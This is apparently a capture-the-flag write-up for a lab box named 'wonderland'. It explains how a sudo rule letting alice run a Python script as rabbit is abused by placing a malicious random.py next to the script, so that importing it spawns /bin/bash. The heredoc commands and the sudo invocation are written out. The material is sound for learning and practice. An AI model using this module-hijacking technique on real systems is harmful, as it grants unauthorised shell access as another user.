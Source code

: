 
I left the root flag file for the moment, since the permissions didn’t allow me to do anything on it at that time.

anyway. its a python script we see at the top that the random module is being imported (it's a built-in module that you can use to generate random variables, such as random numbers) 

we could take advantage of one neat trick that python will do when its trying to import modules because python searches for modules,

in 3 different places, it will serach for modules and libraries and packages. in the current directory of the script that you're trying to run! 


1 :
Looking at our privileges reveals the following:


```
alice@wonderland:/$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py


```

* we could run sudo rights on it, but onlly as rabbit.


So all i need to do is create a fake malicios ```random.py```

1 :


```
cat > random.py << EOF

```


2 :


```

> import os
> os.system("/bin/bash")
> EOF

```

Executing the python script:


```

sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

```
